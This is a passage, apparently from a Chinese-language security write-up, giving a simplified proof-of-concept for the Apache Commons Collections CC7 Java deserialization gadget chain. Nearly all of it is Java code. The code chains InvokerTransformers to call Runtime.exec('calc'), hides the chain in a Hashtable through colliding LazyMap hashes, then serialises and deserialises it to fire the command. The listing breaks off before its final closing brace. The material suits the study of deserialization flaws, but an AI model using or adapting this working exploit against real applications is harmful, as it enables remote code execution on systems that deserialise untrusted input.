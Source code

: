 完全没有必要再多构造一个`LazyMap`(`ysoserial`中也是构造了两个LazyMap，可能是为了对称美?)

下面给出稍微简洁一点的POC

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CC7 {
    public static void main(String[] args) throws Exception {
        Transformer[] fake = new Transformer[]{new ConstantTransformer(2)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer((Runtime.class)),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer chain = new ChainedTransformer(fake);
        Map map1 = new HashMap();
        Map map2 = new HashMap();
        Map lazyMap2 = LazyMap.decorate(map2, chain);
        map1.put("yy", 1);
        lazyMap2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(map1, 1);
        hashtable.put(lazyMap2, 2);
        lazyMap2.remove("yy");

        //输出两个元素的hash值
        System.out.println("lazyMap1 hashcode:" + map1.hashCode());
        System.out.println("lazyMap2 hashcode:" + lazyMap2.hashCode());

        setValue(chain, "iTransformers", transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashtable);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
    }

    public static void setValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }
```